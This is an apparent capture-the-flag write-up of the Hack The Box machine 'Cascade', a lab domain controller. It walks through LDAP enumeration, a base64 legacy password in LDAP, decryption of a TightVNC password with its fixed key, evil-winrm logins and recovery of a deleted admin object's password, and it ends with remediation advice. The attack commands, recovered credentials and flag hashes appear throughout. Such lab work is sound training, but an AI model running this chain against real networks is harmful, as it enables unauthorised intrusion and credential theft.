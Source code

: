 # Nmap
```bash
nmap 10.10.10.182 -sC -sV
```
13 ports open. Showing that it is also a domain controller. LDAP leaks the domain name of cascade.local

Adding that to /etc/hosts

As there is no webserver checking LDAP and SMB

# LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s base namingcontexts
```
Domain DC=cascade,DC=local

Then dump LDAP
```bash
ldapsearch -x -H ldap://10.10.10.182 -s sub -b 'DC=cascade,DC=local' > ldap_anon
```
Enumerate usernames, to try to find username conventions
```bash
cat ldap_anon | grep sAMAccountName
```
This shows a naming convention of f.lastname
```
s.smith
r.thompson
j.wakefield
s.hickson
j.goodhand
a.turnbull
e.crowe
b.hanson
d.burman
j.allen
i.croft
```
Check for unique values. Which finds a legacyPwd.
```bash
cat ldap_anon | sort | uniq -c | sort -nr
	1 cascadeLegacyPwd: clk0bjVldmE=
```
b64 decode
rY4n5eva

This is r.thompson's password :)

Check with crackmapexec
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva
```
This works but doesn't say pwned.

Check smb with user.
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva --shares
```
Unique things.
Data and print

Using spider_plus in cme
```bash
crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva -M spider_plus
```

Interesting files.
- meeting notes
- recyclebin
- s.smith files
- mapdatadrive

# SMB Drives
Mount the drives
```bash
sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/data /mnt/data

sudo mount -t cifs -o 'user=r.thompson,password=rY4n5eva' //10.10.10.182/netlogon /mnt/netlogon
```

Check the netlogon files. No passwords :(

Audit drive? no permission to mount drive :(
password in vnc install.reg
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
```
kÏ*KnZÊ.
```
which is encrypted

# VNC

googling vnc it turns out to be tightvnc which has a static key :/
running these commands from with irb in msf6:
```ruby
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"  
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey
```
outputs
```
sT333ve2
```

This will be the password for s.smith
trying with cme again

```bash
crackmapexec 10.10.10.182 -u s.smith -p sT333ve2
```
Which says Pwn3d! !

# Foothold
User flag
```bash
3a48ee5fd948da5862bad545d8f3e1e0
```

```bash
crackmapexec smb 10.10.10.182 -u s.smith -p sT333ve2 -M spider_plus
```
This shows a new audit share with 3 interesting files.

runAudit.bat, cascaudit.exe, casccrypt.dll

Reverse engineer the exe to return the output from line 44.
Using dnSpy.
```
w3lc0meFr31nd
```
But for what user?

Dump the sql database
```bash
sqlite3 Audit.db .dump
```
Password was for ArkSvc
Login with evil-winrm
```bash
evil-winrm -i 10.10.10.182 -u arksvc -p w3lc0meFr31nd
```
Check privs

member of the recycle bin group?
So we can get deleted items?

Google says yes!

Get-ADObject
```powershell
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -Filter
{ObjectClass -eq "user"} -IncludeDeletedObjects -Properties *
```

Two files.
One which has a cascadeLegacyPwd :)
```
baCT3r1aN00dles
```
Which is the default admin password (from the note earlier)

check for the administrator user.
```powershell
net user administrator
```

The final evil-winrm
and admin :)
```shell
d5a30650809a2b377278273b7d0b7f38
```

# Clean up
Didn't add any files.

# Recommendations
- Dont reuse passwords for admin accounts.
- Remove the cascadeLegacyPwd field from r.thompson and tempadmin from within LDAP.
- Use a better vnc type as this one has a static password, so the encryption is useless.
- Dont have hardcoded credentials for an encryption algorithm (Audit.exe)
- Why does s.smith need to be able to view the database?
- Have a stronger password policy and have rotations every 30 days.
- Disable winrm on all accounts that dont need it.



---
Creation date: 28-10-2022

Last modified date: Friday 28th October 2022
***
